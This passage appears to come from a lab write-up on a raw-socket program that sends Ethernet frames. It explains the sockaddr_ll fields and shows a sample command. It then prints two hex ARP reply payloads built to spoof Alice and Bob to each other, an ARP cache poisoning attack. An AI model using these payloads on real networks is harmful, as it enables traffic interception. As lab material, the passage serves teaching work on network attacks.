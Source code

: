 After the frame is sent, the program closes the file and socket to release resources.

**Key Structures and Definitions**

IFNAMSIZ: Defined in <linux/if.h>, it specifies the maximum size of a network interface name (16 bytes, including the null terminator).
sockaddr_ll: A low-level structure used for sending Layer 2 Ethernet frames.
Important fields include:
sll_family: Specifies Layer 2 (PF_PACKET).
sll_protocol: The protocol type (e.g., 0x0806 for ARP).
sll_ifindex: The index of the network interface.
sll_addr: The destination MAC address.
sll_halen: Length of the MAC address (6 bytes).

**Example Usage**

sudo raw_packet eth1 02:42:0a:0a:28:02 0x0806 alice_bonus.bin

eth1: The network interface used to send the frame.
02:42:0a:0a:28:02: The target MAC address to which the frame will be sent.
0x0806: Protocol type indicating the payload is an ARP packet.
alice_bonus.bin: A file containing the data to send as the payload.

**Notes**

Root Privileges:

The program must be run as root because raw sockets require elevated permissions.

Payload Size:

Ensure the payload size does not exceed the Ethernet frame's maximum payload capacity of 1500 bytes (excluding the header).

Error Handling:

The program will print error messages and terminate if there are issues with inputs or system calls.

---

## Steps in Detail

### **1. Preparing the Environment**

#### **Crafting ARP Payloads**
I crafted two payloads to spoof ARP requests:

**Alice's Payload (`alice_payload.hex`):**
Sent to **Alice**, pretending to be **Bob**:
```
00 01 08 00 06 04 00 02
02 42 0a 0a 28 04 0a 0a 28 03
02 42 0a 0a 28 02 0a 0a 28 02
```

**Bob's Payload (`bob_payload.hex`):**
Sent to **Bob**, pretending to be **Alice**:
```
00 01 08 00 06 04 00 02
02 42 0a 0a 28 04 0a 0a 28 02
02 42 0a 0a 28 03 0a 0a 28 03
```
